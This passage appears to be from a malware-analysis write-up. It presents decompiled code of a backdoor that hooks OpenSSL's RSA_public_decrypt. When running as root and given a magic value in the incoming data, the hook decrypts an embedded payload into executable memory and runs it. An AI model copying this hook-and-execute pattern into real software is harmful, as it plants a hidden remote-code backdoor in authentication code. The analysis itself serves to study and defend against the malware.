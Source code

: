 ```c
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

So, to describe what these two functions are doing, the first one is getting a pointer to what I believe to be openssh or openssl, and using that to get a plthook object, then searching for the "RSA_public_decrypt" functon, and replacing it with its own function, which I have named `FUN_RSA_public_decrypt_mal`. 

If you google `RSA_public_decrypt`, you will find the functon and its signature [here](https://docs.openssl.org/master/man3/RSA_private_encrypt/). Its safe to assume that the malicious function will also have the same signature. 

Lets see what this malicious function is doing. (but changing `from` to be `void *` for who knows what data its going to have)

```c

int RSA_public_decrypt_mal(int flen,void *from,uchar *to,RSA *rsa,int padding)

{
  __uid_t _Var1;
  int iVar2;
  code *pcVar3;
  void *__dest;
  char *pcVar4;
  long in_FS_OFFSET;
  undefined local_108 [200];
  long local_40;
  
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  _Var1 = getuid();
  pcVar4 = "RSA_public_decrypt";
  if (_Var1 == 0) {
    if (*from == 0xc5407a48) {
      FUN_001093f0(local_108,(long)from + 4,(long)from + 0x24,0);
      __dest = mmap((void *)0x0,(long)INT_00132360,7,0x22,-1,0);
      pcVar3 = (code *)memcpy(__dest,&DAT_00123960,(long)INT_00132360);
      FUN_00109520(local_108,pcVar3,(long)INT_00132360);
      (*pcVar3)();
      FUN_001093f0(local_108,(long)from + 4,(long)from + 0x24,0);
      FUN_00109520(local_108,pcVar3,(long)INT_00132360);
    }
    pcVar4 = "RSA_public_decrypt ";
  }
  pcVar3 = (code *)dlsym(0,pcVar4);
  iVar2 = (*pcVar3)(flen,from,to,rsa,padding);
  if (local_40 == *(long *)(in_FS_OFFSET + 0x28)) {
    return iVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
